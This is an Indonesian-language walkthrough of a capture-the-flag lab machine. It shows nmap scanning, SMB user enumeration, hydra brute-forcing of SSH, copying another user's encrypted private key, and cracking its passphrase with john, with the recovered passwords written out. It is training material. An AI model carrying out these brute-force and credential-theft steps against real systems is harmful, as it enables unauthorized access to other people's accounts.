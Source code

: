 # Basic Pentesing Write Up

## Tools

1. nmap
2. enum4linux
3. hydra
4. ssh2john
5. john

## Walk through

### nmap

```bash
nmap -sV 'IpServer'
```

#### hasil

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 16:07 WIB
Nmap scan report for 10.10.124.27 (10.10.124.27)
Host is up (0.31s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.64 seconds
```

kita mendapatkan beberapa open port dalam server tersebut dan terdapat samba smb port terbuka, marikita enumerate

Samba adalah program yang bersifat sumber terbuka yang menyediakan layanan berbagi berkas (file service) dan berbagi alat pencetak (print service), resolusi nama NetBIOS, dan pengumuman layanan (NetBIOS service announcement/browsing).

### enum4linux

```bash
enum4linux -a 'IpServer'
```

#### hasil

```bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

```

kita mendapatkan option username yang mana kita pakai untuk login ke ssh.Mari kita gunakan kedua username tersebut untuk memaksa masuk menggunakan metode `Bruteforce`.

### hydra

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://IpServer
```

#### hasil

```bash
[22][ssh] host: 10.10.124.27   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```

kita mendapatkan password dari username jan, mari kita akses ssh dari server tersebut menggunakan username `jan` dan password `armando`

### ssh

```bash
ssh jan@IpServer -p 22
```

setelah kita masuk kedalam ssh dari server tersebut kita gali informasi didalamnya.

```bash
$ cat /etc/passwd

kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
jan:x:1001:1001::/home/jan:/bin/bash
```

kita mendapatkan 2 user yang sama.Mari kita test cek directory home

```bash
$ ls -la ..

drwxr-xr-x  4 root root 4096 Apr 19  2018 .
drwxr-xr-x 24 root root 4096 Apr 23  2018 ..
drwxr-xr-x  2 root root 4096 Apr 23  2018 jan
drwxr-xr-x  5 kay  kay  4096 Apr 23  2018 kay

```

kita mendapat directory bernama kay yang mana memiliki akses root, mari kita coba akses.

```bash
$ cd ../kay && ls -la

drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

kita melihat bahwa ada directory `.ssh` didalam,mari coba kita akses dan buka semua file didalam.

```bash
$ ls -la

-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub

$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ.........
```

setelah kita sedikit explore kita mendapatkan ssh key , mari kita copy string ini dan simpan untuk kita coba akses ssh servernya dengan nama `kay_ssh_key`.

```bash
$ chmod 600 kay_ssh_key
$ ssh -i kay_ssh_key kay@IpServer

Enter passphrase for key 'kay_ssh_id':
```

ternyata ada password dalam ssh key tersebut, kita coba bruteforce password tersebut.

```bash
$ ssh2john kay_ssh_id > sshkeyshash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt sshkeyshash.txt

Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_ssh_id)
```

kita mendapatkan password dari username kay yaitu `beeswax`. Mari kita coba akses kembali.

```bash
$ ssh -i kay_ssh_key kay@IpServer

Enter passphrase for key 'kay_ssh_id': beeswax
```

dan kita mendapatkan akses dari user kay dan explore didalamnya.

```bash
$ ls -la

drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   782 Oct 29 06:41 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo

$ cat pass.bak

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

kita mendapatkan password yang disembunyikan si pembuat server

`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
